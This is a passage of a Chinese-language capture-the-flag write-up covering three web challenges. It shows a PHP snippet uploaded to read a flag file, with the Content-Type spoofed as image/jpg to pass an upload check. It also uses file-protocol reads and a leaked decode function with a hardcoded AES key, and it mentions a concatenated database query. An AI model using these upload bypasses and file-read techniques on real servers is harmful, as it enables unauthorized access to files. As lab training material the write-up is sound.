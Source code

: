 最后使用：

```php
<?php
$myfile = fopen("/var/www/html/flag.php", "r") or die("Fail!");
echo fread($myfile, filesize("/var/www/html/flag.php"));
fclose($myfile);
?>
```

要改变http头的`content-type`为`image/jpg`

#### flag截图

最后读到`flag.php`

{%asset_img 3.png %}

### Readflag

#### 解题思路

直接用文件协议读取，但`flag`藏得太深，艰难寻找

#### 相关代码和flag截图

{%asset_img 4.png%}

### Codecheck

#### 解题思路

扫目录：

{% asset_img 5.png%}

去new目录看看，发现源码：

{% asset_img 6.png %}

下下来发现解密函数和直接拼接的数据库查询语句

```php
function decode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
	$data = mdecrypt_generic($td,base64_decode(base64_decode($data)));
	mcrypt_generic_deinit($td);
	mcrypt_module_close($td);
	if(substr(trim($data),-7)!=='hxb2018'){
		echo '<script>window.location.href="/index.php";</script>';
	}else{
		return substr(trim($data),0,strlen(trim($data))-7);
	}
}
```
